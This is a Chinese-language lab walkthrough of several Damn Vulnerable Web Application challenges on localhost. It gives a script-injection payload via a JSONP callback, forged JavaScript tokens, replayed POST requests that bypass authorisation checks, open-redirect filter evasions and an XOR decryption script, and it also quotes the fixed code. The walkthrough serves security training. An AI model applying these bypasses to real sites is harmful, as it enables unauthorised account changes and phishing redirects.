照着代码写payload，就是触发jsonp.php不是solveSum了，而是`alert('1')`

```
include=<script src="source/jsonp.php?callback=alert('1');"></script>
```

HackBar发送即可。


### Security Impossible

防护plus


## JavaScript

### Security Low

点击按钮说我 `You got the phrase wrong.`

遇事不决，bp抓包，发现报文中出现了一个token，返回主页面，F12查看token来源，发现下面的代码：

```php
/*
MD5 code from here
https://github.com/blueimp/JavaScript-MD5
*/

!function(n){"use strict";function t(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function r(n,t){return n<<t|n>>>32-t}function e(n,e,o,u,c,f){return t(r(t(t(e,n),t(u,f)),c),o)}function o(n,t,r,o,u,c,f){return e(t&r|~t&o,n,t,u,c,f)}function u(n,t,r,o,u,c,f){return e(t&o|r&~o,n,t,u,c,f)}function c(n,t,r,o,u,c,f){return e(t^r^o,n,t,u,c,f)}function f(n,t,r,o,u,c,f){return e(r^(t|~o),n,t,u,c,f)}function i(n,r){n[r>>5]|=128<<r%32,n[14+(r+64>>>9<<4)]=r;var e,i,a,d,h,l=1732584193,g=-271733879,v=-1732584194,m=271733878;for(e=0;e<n.length;e+=16)i=l,a=g,d=v,h=m,g=f(g=f(g=f(g=f(g=c(g=c(g=c(g=c(g=u(g=u(g=u(g=u(g=o(g=o(g=o(g=o(g,v=o(v,m=o(m,l=o(l,g,v,m,n[e],7,-680876936),g,v,n[e+1],12,-389564586),l,g,n[e+2],17,606105819),m,l,n[e+3],22,-1044525330),v=o(v,m=o(m,l=o(l,g,v,m,n[e+4],7,-176418897),g,v,n[e+5],12,1200080426),l,g,n[e+6],17,-1473231341),m,l,n[e+7],22,-45705983),v=o(v,m=o(m,l=o(l,g,v,m,n[e+8],7,1770035416),g,v,n[e+9],12,-1958414417),l,g,n[e+10],17,-42063),m,l,n[e+11],22,-1990404162),v=o(v,m=o(m,l=o(l,g,v,m,n[e+12],7,1804603682),g,v,n[e+13],12,-40341101),l,g,n[e+14],17,-1502002290),m,l,n[e+15],22,1236535329),v=u(v,m=u(m,l=u(l,g,v,m,n[e+1],5,-165796510),g,v,n[e+6],9,-1069501632),l,g,n[e+11],14,643717713),m,l,n[e],20,-373897302),v=u(v,m=u(m,l=u(l,g,v,m,n[e+5],5,-701558691),g,v,n[e+10],9,38016083),l,g,n[e+15],14,-660478335),m,l,n[e+4],20,-405537848),v=u(v,m=u(m,l=u(l,g,v,m,n[e+9],5,568446438),g,v,n[e+14],9,-1019803690),l,g,n[e+3],14,-187363961),m,l,n[e+8],20,1163531501),v=u(v,m=u(m,l=u(l,g,v,m,n[e+13],5,-1444681467),g,v,n[e+2],9,-51403784),l,g,n[e+7],14,1735328473),m,l,n[e+12],20,-1926607734),v=c(v,m=c(m,l=c(l,g,v,m,n[e+5],4,-378558),g,v,n[e+8],11,-2022574463),l,g,n[e+11],16,1839030562),m,l,n[e+14],23,-35309556),v=c(v,m=c(m,l=c(l,g,v,m,n[e+1],4,-1530992060),g,v,n[e+4],11,1272893353),l,g,n[e+7],16,-155497632),m,l,n[e+10],23,-1094730640),v=c(v,m=c(m,l=c(l,g,v,m,n[e+13],4,681279174),g,v,n[e],11,-358537222),l,g,n[e+3],16,-722521979),m,l,n[e+6],23,76029189),v=c(v,m=c(m,l=c(l,g,v,m,n[e+9],4,-640364487),g,v,n[e+12],11,-421815835),l,g,n[e+15],16,530742520),m,l,n[e+2],23,-995338651),v=f(v,m=f(m,l=f(l,g,v,m,n[e],6,-198630844),g,v,n[e+7],10,1126891415),l,g,n[e+14],15,-1416354905),m,l,n[e+5],21,-57434055),v=f(v,m=f(m,l=f(l,g,v,m,n[e+12],6,1700485571),g,v,n[e+3],10,-1894986606),l,g,n[e+10],15,-1051523),m,l,n[e+1],21,-2054922799),v=f(v,m=f(m,l=f(l,g,v,m,n[e+8],6,1873313359),g,v,n[e+15],10,-30611744),l,g,n[e+6],15,-1560198380),m,l,n[e+13],21,1309151649),v=f(v,m=f(m,l=f(l,g,v,m,n[e+4],6,-145523070),g,v,n[e+11],10,-1120210379),l,g,n[e+2],15,718787259),m,l,n[e+9],21,-343485551),l=t(l,i),g=t(g,a),v=t(v,d),m=t(m,h);return[l,g,v,m]}function a(n){var t,r="",e=32*n.length;for(t=0;t<e;t+=8)r+=String.fromCharCode(n[t>>5]>>>t%32&255);return r}function d(n){var t,r=[];for(r[(n.length>>2)-1]=void 0,t=0;t<r.length;t+=1)r[t]=0;var e=8*n.length;for(t=0;t<e;t+=8)r[t>>5]|=(255&n.charCodeAt(t/8))<<t%32;return r}function h(n){return a(i(d(n),8*n.length))}function l(n,t){var r,e,o=d(n),u=[],c=[];for(u[15]=c[15]=void 0,o.length>16&&(o=i(o,8*n.length)),r=0;r<16;r+=1)u[r]=909522486^o[r],c[r]=1549556828^o[r];return e=i(u.concat(d(t)),512+8*t.length),a(i(c.concat(e),640))}function g(n){var t,r,e="";for(r=0;r<n.length;r+=1)t=n.charCodeAt(r),e+="0123456789abcdef".charAt(t>>>4&15)+"0123456789abcdef".charAt(15&t);return e}function v(n){return unescape(encodeURIComponent(n))}function m(n){return h(v(n))}function p(n){return g(m(n))}function s(n,t){return l(v(n),v(t))}function C(n,t){return g(s(n,t))}function A(n,t,r){return t?r?s(t,n):C(t,n):r?m(n):p(n)}"function"==typeof define&&define.amd?define(function(){return A}):"object"==typeof module&&module.exports?module.exports=A:n.md5=A}(this);

	function rot13(inp) {
		return inp.replace(/[a-zA-Z]/g,function(c){return String.fromCharCode((c<="Z"?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);});
	}

	function generate_token() {
		var phrase = document.getElementById("phrase").value;
		document.getElementById("token").value = md5(rot13(phrase));
	}

	generate_token();
```

太多，不想看。

直接看后面，`token`的值是`md5(rot13(phrase))`，然后phrase的值是从id=phrase里面`value`里面获取的，返回页面源代码进行查找。

结合页面给的提示，需要修改这个value。

所以一切都理清楚了，真正的token是value=success的时候生成出的字符串。

直接控制台输出`Console`:

```
md5(rot13('success'));
```

所以真正的`token`如下：

```
38581812b435834ebf84ebcc2c6424d6
```

当然别忘记那里的word也要输入为success：


### Security Medium

还是bp抓包，然后你敏锐的目光就注意到常人不能注意的东西：

```
token=XXeMegnahCXX&phrase=ChangeMe&send=Submit
```


token怎么感觉就是`XX`+`phrase[::-1]`+`XX`

所以理应的payload如下：

```
token=XXsseccusXX&phrase=success&send=Submit
```

`Good job! `

`Well done!`


### Security High（未Done）

又是自定义程序下的token，代码被混淆了

[Deobfuscate Javascript - Deobfuscate malicious Javascripts for quick and easy analysis](http://deobfuscatejavascript.com/#)

复制源代码进去，然后解混淆：


重写代码


最终的token放在这里

```
ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84
```

然后抓包修改token的值就可以了。


### Security Impossible

`You can never trust anything that comes from the user or prevent them from messing with it and so there is no impossible level.`


## Authorisation Bypass

未授权访问

### Security Low

最开始我们是通过admin管理员权限进行访问的。


所以是可以直接修改用户的Name，以及upadte

然后记住链接

```
127.0.0.1/vulnerabilities/authbypass/
```

由之前的sql注入，我们以及知道了一些账号密码`gordonb/abc123`

然后可以发现，用这个账户登录是没有这个选项的


用这个账户访问上面的链接，发现可以访问得到，这就是未授权的漏洞


### Security Medium

还是上面的流程，发现以及给ban掉了，显示`Unauthorised`

遇事不决，抓包解决。

好吧，没发现什么东西。返回到LOW

发现网络包有一个`get_user_data.php`，提交修改的时候有一个`change_user_details.php`

```
127.0.0.1/vulnerabilities/authbypass/get_user_data.php
```

可以成功访问到




```
127.0.0.1/vulnerabilities/authbypass/change_user_details.php
```

提交的时候模拟成功的协议包，加上POST请求的内容

```http
POST /vulnerabilities/authbypass/change_user_details.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=66jqj1f9dob50mv5mipsu50r6b; security=medium
Connection: close

{"id":5,"first_name":"123","surname":"213213123"}
```

可以看到返回了`OK`，回到原页面也可以看到是修改成功的。


### Security High

`get_user_data.php`给ban掉了

显示

```
{"result":"fail","error":"Access denied"}
```


那我们试试直接修改可不可以成功。

```
127.0.0.1/vulnerabilities/authbypass/change_user_details.php
```

抓包修改

```http
POST /vulnerabilities/authbypass/change_user_details.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=66jqj1f9dob50mv5mipsu50r6b; security=high
Connection: close

{"id":5,"first_name":"123","surname":"213213123"}
```

显示`OK`，那就是可以通过这种方式进行修改，按道理也是可以通过判断返回的result来进行用户名的爆破。


### Security Impossible

对其他文件做出了限制，在那两个关键的文件里面也添加了对admin用户判断。

`change_user_details.php`里的防护

```php
if (dvwaSecurityLevelGet() == "impossible" && dvwaCurrentUser() != "admin") {
	print json_encode (array ("result" => "fail", "error" => "Access denied"));
	exit;
}
```

`get_user_data.php`里的防护：

```php
if ((dvwaSecurityLevelGet() == "high" || dvwaSecurityLevelGet() == "impossible") && dvwaCurrentUser() != "admin") {
	print json_encode (array ("result" => "fail", "error" => "Access denied"));
	exit;
}
```


## Open HTTP Redirect

重定向漏洞，就是攻击者可以控制重定向的页面进行访问

### Security Low

bp抓包，然后点击


创建一个flag.txt文件在`open_redirect`留作备用。


```
http://127.0.0.1/vulnerabilities/open_redirect/source/low.php?redirect=../flag.txt
```

```
http://127.0.0.1/vulnerabilities/open_redirect/source/low.php?redirect=https://www.baidu.com
```

都成功重定向了。


### Security Medium

源代码查看过滤掉了http

```php
if (preg_match ("/http:\/\/|https:\/\//i", $_GET['redirect']))
```


我们可以使用//，默认是和本站采取相同的协议进行访问

```
http://127.0.0.1/vulnerabilities/open_redirect/source/medium.php?redirect=//www.baidu.com
```

当然访问本地的文件`flag.txt`也是可以成功的。

```
http://127.0.0.1/vulnerabilities/open_redirect/source/medium.php?redirect=../flag.txt
```


### Security High

判断是否有info.php，就是判断是否重定向回info.php，

```php
if (strpos($_GET['redirect'], "info.php") !== false)
```

包含即可，直接构造

```
http://127.0.0.1/vulnerabilities/open_redirect/source/high.php?redirect=https://www.baidu.com?id=info.php
```

```
http://127.0.0.1/vulnerabilities/open_redirect/source/high.php?redirect=../flag.txt?id=info.php
```

都执行成功了！


### Security Impossible

还是老一套最管用的白名单策略，固定死能重定向到的页面，让黑客无法控制访问流。


## Cryptography

### Security Low

可以看到他进行了什么操作


虽然看源代码可以直接看到它的正确答案为`Olifant`

但这里还是走一下流程，可以解密它的密文

```php
function xor_this($cleartext, $key) {
    // Our output text
    $outText = '';

    // Iterate through each character
    for($i=0; $i<strlen($cleartext);) {
        for($j=0; ($j<strlen($key) && $i<strlen($cleartext)); $j++,$i++) {
            $outText .= $cleartext[$i] ^ $key[$j];
        }
    }
    return $outText;
}
$message="Lg4WGlQZChhSFBYSEB8bBQtPGxdNQSwEHREOAQY=";
$key = "wachtwoord";
$encoded = xor_this (base64_decode ($message), $key);
```


base的基础上夹杂xor

```python
import base64

message="Lg4WGlQZChhSFBYSEB8bBQtPGxdNQSwEHREOAQY="
key="wachtwoord"

def xor(message,key):
    outText = ""
    key_length = len(key)
    for i in range(len(message)):
        key_char = key[i % key_length]
        outText += chr(message[i] ^ ord(key_char))
    return outText
    
print(xor(base64.b64decode(message),key))
```


### Security Medium

aes-128-ecb


### Security High

AES-128-CBC 


### Security Impossible

256，暂时安全